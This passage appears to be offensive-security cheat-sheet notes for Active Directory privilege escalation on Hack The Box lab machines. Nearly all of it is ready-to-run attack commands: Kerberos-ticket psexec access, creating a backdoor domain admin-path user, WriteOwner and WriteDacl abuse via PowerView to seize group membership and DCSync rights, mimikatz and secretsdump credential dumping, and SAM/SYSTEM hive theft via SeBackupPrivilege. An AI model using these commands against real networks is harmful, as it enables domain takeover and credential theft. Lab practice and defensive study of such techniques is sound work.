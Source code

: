 ```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass

# You could also use smbexec.py, wmiexec.py, atexec.py, dcomexec.py from Linux to authenticate

# On Windows
Once you get ticket, to access drive as admin.
>net use O: \\dc.help.htb\C$
>O:
```

Alternatively:

```bash
net user hacker Hacker123! /add /domain
# Target Group
net group "EXCHANGE WINDOWS PERMISSIONS" /add hacker
```

#### WriteOwner Exploitation

I discovered this path in BloodHound.

```bash
# The user's password that you're exploiting with
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDGodd', $SecPassword)
# TargetIdentity is the group that you're targeting
Set-DomainObjectOwner -Identity "Core Staff" -OwnerIdentity JDGodd -Credential $Cred
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity JDGodd
#Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -Rights WriteMembers
# Members is who you want to add, user that you have a shell with
Add-DomainGroupMember -Identity 'Core Staff' -Members 'nikk37' -Credential $Cred
Get-DomainGroupMember -Identity 'Core Staff'
#Remove-DomainObjectAcl - Credential $cred -TargetIdentity "Domain Admins" -Rights WriteMembers
```

#### WriteDacl Exploitation

I discovered this path in BloodHound.

```bash
$SecPassword = ConvertTo-SecureString 'Hacker123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hacker', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
lsadump::dcsync /domain:htb.local /user:Administrator
# Or
/opt/windows/DCSync/DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local'  hackerAdministrator:Hacker123!
secretsdump.py htb.local/hacker:Hacker123\!@$ip
```

#### SeBackupPrivilege

```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system

secretsdump.py -sam sam -system system local
```
